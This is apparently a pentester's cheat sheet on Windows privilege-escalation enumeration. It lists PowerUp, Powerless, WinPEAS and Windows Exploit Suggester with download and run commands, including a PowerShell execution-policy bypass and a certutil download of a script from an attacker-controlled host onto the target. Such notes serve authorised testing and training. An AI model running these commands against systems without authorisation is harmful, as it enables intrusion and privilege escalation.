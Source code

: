 
- PowerUP
  - Powershell required
  - Download `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`
  - Run on Windows `powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"`
  
- Powerless
  - For legacy systems
  - Powershell not available
  - Download `wget https://raw.githubusercontent.com/gladiatx0r/Powerless/blob/master/Powerless.bat`
  - Drop `certutil.exe -urlcache -split -f "http://$IP/Powerless.bat" Powerless.bat`
  - Run on Windows `Powerless.bat`
  
  - WinPEAS
    - Release https://github.com/carlospolop/PEASS-ng/releases/tag/20220807
    
  - Windows Exploit Suggester
    - https://github.com/AonCyberLabs/Windows-Exploit-Suggester
    - Download `wget https://github.com/AonCyberLabs/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py`
    - Run `systeminfo` on the target Windows machine and save the output in a txt file.
    - `python3 windows-exploit-suggester.py --update`
    - `python3 windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo systeminfo.txt`
